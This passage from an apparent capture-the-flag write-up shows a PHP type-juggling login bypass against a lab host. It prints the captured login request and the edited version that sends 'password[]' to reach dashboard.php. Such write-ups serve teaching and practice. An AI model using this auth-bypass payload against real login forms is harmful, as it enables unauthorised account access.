 We see it does a check that if the email sent to the server is `liam@lunar.local` and also it does string compare to the password being sent to the server with the password in the file creds.php

From here we know that the password variable is vulnerable to php type juggling

Reason why is because it comparision operator is weak and not approriate 

So lets just exploit this bug

I'll head back to the web login page and capture the request in burp suite

Then when i try loggin in now with a valid email
![image](https://user-images.githubusercontent.com/113513376/214084561-661866e8-4618-479a-96a8-af598de3a282.png)

Here's the request below

```
POST /login.php HTTP/1.1
Host: 192.168.66.216
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://192.168.66.216
Connection: close
Referer: http://192.168.66.216/login.php
Cookie: PHPSESSID=35cr6r4vvs6u6uu7hmrfsjlqng
Upgrade-Insecure-Requests: 1

email=liam%40lunar.local&password=
```

I'll edit the request to this

```
POST /login.php HTTP/1.1
Host: 192.168.66.216
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://192.168.66.216
Connection: close
Referer: http://192.168.66.216/login.php
Cookie: PHPSESSID=35cr6r4vvs6u6uu7hmrfsjlqng
Upgrade-Insecure-Requests: 1

email=liam%40lunar.local&password[]=""
```

After forwarding it we get redirected to dashboard.php cool
![image](https://user-images.githubusercontent.com/113513376/214084981-5a8b793f-8014-4289-965a-67b0240fbe50.png)
